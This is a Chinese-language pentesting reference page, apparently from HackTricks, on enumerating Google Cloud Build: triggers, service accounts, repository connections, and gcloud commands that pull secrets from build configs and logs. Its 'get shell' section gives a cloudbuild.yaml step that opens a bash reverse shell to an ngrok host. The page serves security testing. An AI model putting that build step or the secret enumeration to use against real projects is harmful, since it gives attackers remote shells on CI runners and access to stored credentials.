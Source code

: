 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## 基本信息

Google Cloud Build 是一个托管的 CI/CD 平台，**自动化软件构建**和发布过程，集成了**源代码库**并支持多种编程语言。它**允许开发者自动构建、测试和部署代码**，同时提供自定义构建步骤和工作流的灵活性。

每个 Cloud Build 触发器**与 Cloud Repository 相关或直接连接到外部仓库**（Github、Bitbucket 和 Gitlab）。

> [!TIP]
> 我无法从这里或 Cloud Repositories 中窃取 Github/Bitbucket 令牌，因为当仓库被下载时，它是通过 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL 访问的，而客户端无法访问 Github。

### 事件

Cloud Build 可以在以下情况下被触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收 PR 的分支
- **手动调用**
- **Pub/Sub 消息**：指定主题
- **Webhook 事件**：将暴露一个 HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有 3 个选项：

- 一个 yaml/json **指定要执行的命令**。通常是：`/cloudbuild.yaml`
- 只能在网页控制台和 CLI 中“内联”指定的一个
- 最常见的选项
- 适用于未认证访问
- 一个 **Dockerfile** 进行构建
- 一个 **Buildpack** 进行构建

### SA 权限

**服务账户具有 `cloud-platform` 范围**，因此可以**使用所有权限。** 如果**未指定 SA**（例如在提交时），将使用**默认 SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不授予任何权限，但很容易授予一些：

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### 审批

可以配置 Cloud Build **要求构建执行的审批**（默认情况下禁用）。

### PR 审批

当触发器是 PR 时，因为**任何人都可以对公共仓库进行 PR**，仅仅**允许任何 PR 执行触发器**将非常危险。因此，默认情况下，执行将仅对**所有者和协作者自动**，为了使用其他用户的 PR 执行触发器，所有者或协作者必须评论 `/gcbrun`。

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### 连接与仓库

可以通过以下方式创建连接：

- **GitHub：** 将显示一个 OAuth 提示，要求权限以**获取 Github 令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub Enterprise：** 将要求安装一个**GithubApp**。将创建并存储来自您的 GitHub Enterprise 主机的**身份验证令牌**，作为此项目的 S**ecret Manager** 秘密。
- **GitLab / Enterprise：** 您需要**提供 API 访问令牌和读取 API 访问令牌**，这些将存储在**Secret Manager**中。

一旦生成连接，您可以使用它来**链接 Github 账户有访问权限的仓库**。

此选项可以通过按钮访问：

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> 请注意，通过此方法连接的仓库**仅在使用第二代的触发器中可用**。

### 连接一个仓库

这与**`连接`**不同。这允许**不同**的方式获取**对 Github 或 Bitbucket** 仓库的**访问，但不生成连接对象，而是生成一个仓库对象（第一代）。**

此选项可以通过按钮访问：

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### 存储

有时 Cloud Build 将**生成一个新的存储以存储触发器的文件**。例如，在 GCP 提供的示例中：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
一个名为 [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) 的存储桶被创建用来存储一个包含要使用的文件的 `.tgz`。

### 获取 shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
在 cloud build 中安装 gcloud：
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 枚举

您可以在构建配置和日志中找到 **敏感信息**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 权限提升

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### 未经身份验证的访问

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### 后期利用

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
